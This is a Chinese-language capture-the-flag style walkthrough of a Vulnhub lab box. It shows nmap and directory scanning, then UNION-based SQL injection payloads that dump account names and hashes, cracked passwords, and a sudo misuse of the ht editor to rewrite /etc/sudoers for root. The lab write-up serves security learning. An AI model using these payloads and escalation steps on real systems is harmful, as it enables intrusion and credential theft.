[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.168
```

初步扫描，只开放了22，80端口

## TCP详细扫描

```
nmap -sT -sC -sV -O -p22,80 -oA /nmapscan/tcp 192.168.174.168
```



没有发现什么有效信息

## VULN扫描

```
nmap --script=vuln -p22,80 -oA /nmapscan/vuln 192.168.174.168
```



22端口没什么信息，80端口有很多

- 可能存在sql注入，DOS攻击，CSRF漏洞
- 枚举了/phpmyadmin,/cache,./core,/icons,/modules,/style等目录

## Whatweb

```
whatweb http://192.168.174.168
```



whatweb主要用于识别版本号，判断是否是CMS管理系统

## 目录枚举

```
gobuster dir -u "http://192.168.174.168" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php
```



```
dirb http://192.168.174.168 /usr/share/wordlists/dirb/big.txt
```

（这个就不展示了，没有可用的目录）

# 80端口分析

先查看默认页面



感觉平平无奇，点击一下其他链接





这个上传评论的页面可以尝试xss注入，但是尝试无果



第三个页面是个登录界面，尝试sql注入无果

- 接下来查看我们爆破出的目录



一个数据库管理登陆页面，暂时不理会

- 在查看/gallery目录时，发现有许多可点击的链接


（最开始查看时图片都是损坏的，火绒也在报错，原因是页面资源，如图片、CSS样式等，是使用绝对域名来引用的，直接通过IP访问时，浏览器无法解析这个域名，自然就无法加载这些资源，导致页面显示错乱，图片缺失）

- 在点击这里时



- 在左下角随便点这个排列顺序的功能就会发现上面的url出现了id参数，很明显可能存在sql注入，我们尝试一下fuzz测试

- 这里抓个包，方便后续操作


- id这个参数改为单引号或者双引号时都会报错sql语句错误，确定了这里存在sql注入漏洞（如果是正常显示，则可能是过滤了单引号）

接下来测试是字符型还是数字型

- 字符型

```
1' and '1'='1
1' and '1'='2
```

如果两次结果不同说明存在字符型注入(因为单引号和双引号都报错，所以这里只展示一个)

（在url中直接输入要进行url编码，比如将空格替代为%20）

- 数字型

```
1 and 1=1
1 and 1=2
```



有正常回显，可以尝试，不过正常情况下是两种输入，结果不一样才能确定是数字型注入

- 经过尝试发现



```
1%20or%201=1
1%20or%201=2
```

结果不一样，而且必须是url编码，说明存在数字型注入

- 这应该是因为and要求两个条件都为真，通常用于布尔盲注和报错注入
- or只要求一个为真，通常用于绕过登录认证和强制返回所有数据

- 既然and不通就可以使用or，两个换着来

```
1 order by 7--+
（1%20order%20by%207--）
```



这时报错，说明有6列

- 先查看数据库（也可以将database()改为version(),user()，用于查看当前数据库版本，当前用户名）

```
1 union select 1,database(),3,4,5,6--+
（1%20union%20select%201,database(),3,4,5,6--+）
```



得到当前数据库名gallery（查询的位置可以多改动一下，因为有信息可能因为靶机页面设置的问题导致输出不完整，我一开始选的是1，但结果不完整，2，3中2最好）

- 查看表名

```
1 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='gallery'--+
(1%20union%20select%201,group_concat(table_name),3,4,5,6%20from%20information_schema.tables%20where%20table_schema='gallery'--+)
```



- 查看dev_accounts的列

```
1 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='dev_accounts'--+
（1%20union%20select%201,group_concat(column_name),3,4,5,6%20from%20information_schema.columns%20where%20table_name='dev_accounts'--+）
```



- 查看id,username,password

```
1 union select 1,group_concat(id,':',username,':',password),3,4,5,6 from dev_accounts--+
（1%20union%20select%201,group_concat(id,':',username,':',password),3,4,5,6%20from%20dev_accounts--+）
```



得到了两个用户名以及对应的哈希值，分别进行解密

- dreg：Mast3r
- loneferret：starwars

# ssh连接

这个靶机直接连连不上，因为我的 SSH 客户端（Kali 默认的 OpenSSH 版本较高）出于安全考虑，**默认禁用了 `ssh-rsa` 和 `ssh-dss` 这两种较旧的主机密钥算法**。而靶机（可能是较老版本的 OpenSSH）只提供这两种算法，双方无法协商一致，连接被拒绝。

```
ssh -oHostKeyAlgorithms=+ssh-rsa dreg@192.168.174.168
```



两个ssh都成功连接

其中dreg用户的bash被限制，loneferret用户的shell是正常的bash

- 在loneferret用户中发现一个特殊文件

意思是使用sudo ht

- `ht` 是一个十六进制编辑器，我在做的时候直接运行'sudo ht'报错，显示

意思是我当前这个终端类型（xterm-256color）在靶机上没有被识别，导致ht编辑器无法启动

- 所以我们可以设置一个更通用的终端类型

```
export TERM=xterm
```

同时

ht也是有suid权限的

```
sudo ht
```



按F3



直接输入/etc/sudoers



在当前用户的sudo权限后写入一个/bin/bash，这样可以直接在当前用户运行'sudo /bin/bash'



成功拿到root

# 另解

除了sql注入，还有两种方法

- 第一种是通过whatweb发现靶机是用LotusCMS框架的

可以直接在网上搜对应的漏洞，直接执行可以拿到低级shell，查看配置文件就可以得到mysql的账号密码，也可以得到对应效果

- 第二种就是利用metasploit，但是不知道为什么我用不成，不过别人是确实可行的

详细参考这位大佬

[0×03 Vulnhub 靶机渗透总结之 KIOPTRIX: LEVEL 1.2 (#3) SQL注入+sudo提权 - wsec - 博客园](https://www.cnblogs.com/wsec/p/vulhub0x03.html#3-lotuscms-rce-)